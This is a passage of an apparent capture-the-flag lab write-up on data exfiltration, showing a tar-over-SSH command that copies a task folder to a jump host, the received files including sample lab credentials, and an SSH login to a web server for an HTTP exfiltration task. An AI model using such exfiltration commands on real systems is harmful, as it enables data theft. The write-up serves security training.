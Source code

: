 ```console
thm@victim1:~$ tar cf - task5/ | ssh thm@jump.thm.com "cd /tmp/; tar xpf -"
The authenticity of host 'jump.thm.com (192.168.0.133)' can't be established.
ECDSA key fingerprint is SHA256:Ks0kFNo7GTsv8uM8bW78FwCCXjvouzDDmATnx1NhbIs.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'jump.thm.com,192.168.0.133' (ECDSA) to the list of known hosts.
thm@jump.thm.com's password: 
thm@victim1:~$
```
{: .nolineno }

Verify the received data on the Jum-Box :

```console
thm@jump-box:~$ ls
icmpdoor  task4  task5  task6  task9
thm@jump-box:~$ ls /tmp
task4  task4-creds.data  task4-creds.tar
thm@jump-box:~$ ls /tmp
task4  task4-creds.data  task4-creds.tar  task5
thm@jump-box:~$
thm@jump-box:~$ cat /tmp/task5/creds.txt 
admin:password
Admin:123456
root:toor 
```
{: .nolineno }

No Answer.

## TASK 6 : Exfiltrate using HTTP(S)
### Check the Apache log file on web.thm.com  and get the flag! 

Connect to the compromise web server and inspect the apache logs :

```console
thm@jump-box:~$ ssh thm@web.thm.com
The authenticity of host 'web.thm.com (192.168.0.100)' can't be established.
ECDSA key fingerprint is SHA256:FgMKfPI3nivK5/C9Uw51xd6zUKwUd/85aCZHG/2q8ko.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added 'web.thm.com,192.168.0.100' (ECDSA) to the list of known hosts.
thm@web.thm.com's password: 
Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-1029-aws x86_64)

 * Documentation:  https://help.ubuntu.com
 * Management:###  https://landscape.canonical.com
 * Support:### ### https://ubuntu.com/advantage

This system has been minimized by removing packages and content that are
not required on a system that users do not log into.

To restore this content, you can run the 'unminimize' command.

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

thm@web-thm:~$ 
```